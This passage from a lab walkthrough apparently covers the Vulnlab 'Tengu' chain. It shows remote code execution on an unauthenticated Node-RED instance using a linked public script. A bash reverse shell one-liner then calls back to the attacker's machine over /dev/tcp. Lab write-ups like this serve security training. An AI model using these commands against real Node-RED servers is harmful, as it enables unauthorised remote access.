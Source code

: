 ![](images/2024-03-28_14-13_node-red_dashboard.png)

We found the following `ready-to-fire` script for achieving `Remote Code Execution (RCE)` on the `Node-RED` application.

- [https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ python3 noderedsh.py http://10.10.186.231:1880
[+] Node-RED does not require authentication.
[+] Establishing RCE link ....
>
```

### Improving our Reverse Shell

Since the shell created by the script did not contain all command we wanted, we fired up a basic `reverse shell payload` from our favourite site.

- [https://www.revshells.com/](https://www.revshells.com/)

```c
> /bin/bash -i >& /dev/tcp/10.8.0.2/9001 0>&1
{"class":{"__enc__":true,"type":"undefined"},"code":"ETIMEOUT","lineNumber":{"__enc__":true,"type":"undefined"},"message":"Failed to connect to sql.tengu.vl:1433 in 15000ms","details":"Failed to connect to sql.tengu.vl:1433 in 15000ms","name":"ConnectionError","number":{"__enc__":true,"type":"undefined"},"procName":{"__enc__":true,"type":"undefined"},"serverName":{"__enc__":true,"type":"undefined"},"state":{"__enc__":true,"type":"undefined"},"toString":{"__enc__":true,"type":"function"}}
```
